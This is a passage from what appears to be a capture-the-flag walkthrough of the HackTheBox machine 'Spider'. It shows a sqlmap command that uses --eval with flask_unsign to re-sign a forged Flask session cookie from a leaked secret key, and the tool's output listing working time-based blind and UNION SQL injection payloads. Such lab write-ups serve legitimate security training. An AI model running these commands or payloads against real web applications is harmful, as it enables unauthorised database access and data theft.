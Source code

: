 ```
+----+--------------------------------------+------------+-----------------+
...[snip]...

```

#### sqlmap Without Proxy

If I had some idea that the cookie values might be vulnable to SQL injection before I wrote the proxy, I could just use the `--eval` flag in `sqlmap` as shown [here](https://book.hacktricks.xyz/pentesting/pentesting-web/flask#flask-unsign). The example they give is:

```

sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump

```

I’ll update that for Spider:

```

oxdf@parrot$ sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': sess
ion}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" 
...[snip]...
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
...[snip]...
[12:16:17] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you wa
nt to merge them in further requests? [Y/n] n
...[snip]...
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=' AND (SELECT 7466 FROM (SELECT(SLEEP(5)))vsxk) AND 'ziEz'='ziEz

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: session=' UNION ALL SELECT CONCAT(0x7170627071,0x57476d444976695a4a78634c4f4348534e50564972517374416f43536c72794e4a4867516b74534c,0x7162707071)-- -
---
...[snip]...

```

I had first tried this with `--batch` to just accept the default answers to any questions, but it is important to look at the questions `sqlmap` is asking. The second one is “the site is trying to set a cookie, do you want to use that [instead of the one you set with `--eval`]?”. It’s important to say no to that.
